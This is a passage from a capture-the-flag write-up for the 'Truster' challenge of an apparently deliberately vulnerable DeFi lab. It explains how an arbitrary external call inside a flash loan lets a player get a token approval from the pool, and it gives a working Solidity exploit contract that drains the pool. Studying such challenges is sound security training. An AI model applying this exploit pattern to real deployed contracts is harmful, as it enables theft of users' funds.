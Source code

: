 
### Truster

Condition:
- only 1 transcation is allowed
- All tokens from `pool` are transfered to `recovery` account

Key Concet:
- Flashloan
- Arbitary External Call

Solution:

- `target.functionCall(data)` inside `flashloan()` allows the flashloan borrower to perform arbitary logic via `target` & data
- We can call `token.approve(address to, uint256 amount)` to let `pool` approves us

PoC:
```solidity
function test_truster() public checkSolvedByPlayer {
    // Player exploits the TrusterLenderPool to approve themselves to transfer tokens druing flashloan
    // and then transfers the tokens to the recovery address.
    new PoolExploiter(
        address(pool),
        address(token),
        recovery,
        TOKENS_IN_POOL
    );
}

contract PoolExploiter {
    constructor(
        address pool, 
        address token, 
        address recovery, 
        uint amount 
    ) {
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            amount
        );

        TrusterLenderPool(pool).flashLoan(0, address(this), address(token), data);
        DamnValuableToken(token).transferFrom(address(pool), recovery, amount);
    }
}   
```

---

### Side Entrance
